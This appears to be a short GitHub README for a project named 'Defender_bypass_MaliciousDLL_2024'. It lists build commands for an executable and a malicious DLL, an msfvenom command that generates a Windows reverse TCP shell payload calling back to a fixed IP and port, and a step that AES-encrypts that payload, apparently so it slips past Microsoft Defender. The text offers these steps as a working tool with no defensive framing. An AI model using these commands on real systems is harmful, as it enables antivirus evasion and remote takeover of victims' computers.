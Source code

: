 # Defender_bypass_MaliciousDLL_2024
To compile
>x86_64-w64-mingw32-g++ --static -o test.exe process.cpp -fpermissive -lws2_32
>x86_64-w64-mingw32-g++ --static --shared -o start.dll bypassdll.cpp -fpermissive

>msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.175 LPORT=8000 -f raw > beacon.bin
>python aes.py beacon.bin
